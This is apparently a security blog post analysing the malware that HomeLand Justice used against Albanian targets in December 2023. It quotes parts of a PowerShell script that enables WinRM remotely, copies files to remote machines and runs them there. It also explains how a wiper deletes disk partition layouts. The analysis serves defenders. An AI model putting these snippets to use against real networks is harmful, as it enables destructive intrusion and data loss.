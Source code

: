 ```yaml
---
title:  "An analysis of the malware used in the recent cyber-attacks targeting Albania"
date:   2023-12-28
categories: Albania APT state actor hacking cyberattack HomeLandJustice
---
```


## Introduction

On December the 25th, on Christmas day, a hacking group known as HomeLand Justice revealed in their telegram account that they had successfully compromised a well-known telecommunication company and the Albanian Parlament. One of the images showed images of what appeared to be access to VSphere which is a virtualization system.

![Image from HomeLand Justice showing access to vSphere](images/Pasted image 20231227230322.png)

In another video, HomeLand Justice showed how they were performing a wiping attack which was initiated from an Exchange server which potentially could have been the entry point of the compromise.

![Image from HomeLand Justice showing access to Exchange-SRV1 as user t0.admin](images/Pasted image 20231227230828.png)


On one of the videos, the attackers were showing the execution of a Powershell script, which appeared to remotely deploy a file named NACL.exe which is believed to be the wiper malware. 

![HomeLand Justice executing p.ps1 PowerShell Script](Pasted image 20231227224823.png)

As no samples were made public, ClearSky, a Cyber Security company managed to identify the malware based on the filenames and file content.
![](images/[Pasted image 20231227231812.png)

https://twitter.com/clearskysec/status/1740003566431940983

Both samples that may have been featured in the video were also identified on VirusTotal. The files were retrieved from VirusTotal, and the entire analysis is grounded in the examination of these two files.

https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f
https://www.virustotal.com/gui/file/c8b72d6416df83ee44134c779f70125cf1713d8797b0128ef591a7fe15674ac8

## p.ps1 - Analysis

The PowerShell script shown in the video is named "p.ps1" and is pretty easy to reverse engineer as there is no obfuscation, it has comments and uses common documented functionality such as WMI and WinRM.

The script has several function but the most interesting ones are outlined below:

* TestConnection - this is a wrapper function against Test-Connection function on Powershell.
* TestWSManEnabled -  another wrapper function for the Test-WSMan function on Powershell
* TryToEnableWinRM
This function accepts three parameters: the remote computer, username, and password. It then creates a PSCredential object with the specified credentials, and uses the Invoke-WmiMethod function to execute a command on the remote computer.

```powershell
function TryToEnableWinRM

{

param($computerName, $Password, $UserName)

  

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

$result = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force" -ComputerName $computerName -ErrorAction SilentlyContinue -Credential $Credentials

if($result)

{

return $true

}

else

{

return $false

}

}
```

The Invoke-WMI function will connect to the remote computer and using the Win32_Process class will execute the following commands:

```
powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force
```

The first command will set a registry key to configure the WinRM service to start automatically when the system boots. It will then start the WinRM service on the system and by using the Enable-Psremoting command, enables Powershell remoting.

* CreateSession
This function is responsible for setting up the connections to the remote computers using Powershell Remoting.  If successful, it will return the session which is than later used to upload and execute executables.

```powershell
if ($Username -and $Password)

{

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

if($Crederror.length -gt 0)

{

Add-Content -Path $env:Temp\$machine.txt -Value "[UnSuccess][$machine]:: [Error(CreateSession)] : $Crederror"

return $false

}

$Session = New-PSSession -ComputerName $Remotecomputer -Credential $Credentials -ErrorAction SilentlyContinue -ErrorVariable e

}

else

{

$Session = New-PSSession -ComputerName $Remotecomputer -ErrorAction SilentlyContinue -ErrorVariable e

}
```


* ActionOnOpenMachine
This function is one of the most important ones as is the one responsible for uploading the malicious files and executing them. 

To copy files, it uses the Copy-Item function

```powershell
Copy-Item -Path $SourcePath -Destination $DestPath -ToSession $Session -Force
```

After copying the item successfully, it will use the Invoke-Command function to execute the uploaded file.

```powershell
Invoke-Command -Session $Session -ScriptBlock { Start-Process $using:DestPath -ArgumentList $using:ExecutableArgs -NoNewWindow }
```

To conclude, the Powershell script will read a target list that is specified by the operator and perform the following actions:

* Will check if machine is online
* Will check if WinRM is enabled, if not, it will enable it
* Creates a PowerShell remoting session
* Copies the specified file on the remote machine and execute it if `run` is specified as an argument

## NACL.exe Analysis

The video showed HomeLand Justice group deploying a binary NACL.exe through the previously analyzed script. On the video, the file was named NACL.exe, but the original filename that it was compiled is Ptable.exe

![PE file information](Pasted image 20231227215444.png)

What was interesting in this case is that the binary was signed with a valid Code-Signing certificate as can be seen from the following image:

![NACL.exe Signing Information](Pasted image 20231227215407.png)

It is highly likely that the attackers either stole the code-signing certificates or bought them using fake companies.

Loading the NACL.exe binary in a disassembler, the binary was pretty small and mainly contained standard libraries functions. 
All the malicious code was located on address 0x00401010

![Main function disassembly](Pasted image 20231227210402.png)

Firstly the code defines some variables and function pointers. It loads the kernel32.dll library using LoadLibraryW. After that, it uses GetProcAddress to find the addresses of several function and load them to the function pointers that were defined earlier. 
It will then use a function that calls `___stdio_common_vswprintf_p` and construct the following string `\\.\c:`. The malware will then call the CreateFileW function to open a handle to that path and store it on the v5 variable.
And finally it will check if the handle is invalid, if not, it will call DeviceIoControl with the previously opened handle and the flag 0x7c100. The flag 0x7c100 stands for  IOCTL_DISK_DELETE_DRIVE_LAYOUT which is used to delete the partition table and drive layout information on a disk.


## Conclusions and Recommendations

While these attacks can be highly destructive, they are entirely preventable. Ensuring that  externally exposed systems are updated in a timely manner and maintaining a robust security posture can significantly thwart attackers. It is crucial to disable any unused services, implement proper privilege separation, and leverage effective security solutions to proactively detect and prevent potential attacks.


### References

https://www.crowdstrike.com/blog/the-anatomy-of-wiper-malware-part-3/
https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f/details
https://x.com/clearskysec/status/1740003566431940983?s=48&t=NMUlnWhWEekWk7W7mjpYBg





